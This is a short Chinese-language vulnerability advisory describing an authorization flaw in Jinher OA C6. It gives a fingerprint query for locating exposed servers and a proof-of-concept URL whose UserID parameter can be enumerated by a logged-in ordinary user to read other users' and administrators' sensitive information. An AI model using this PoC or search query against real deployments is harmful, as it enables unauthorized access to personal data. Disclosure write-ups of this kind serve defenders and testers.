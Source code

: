 # 金和OA C6 DossierBaseInfoView.aspx 后台越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

```
金和OA C6
```

## 网络测绘

```
app="Jinher-OA"
```

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```plain
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

- 注意 RY120330 需要为确定的其他的用户编号

![1](./images/202202090135010.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA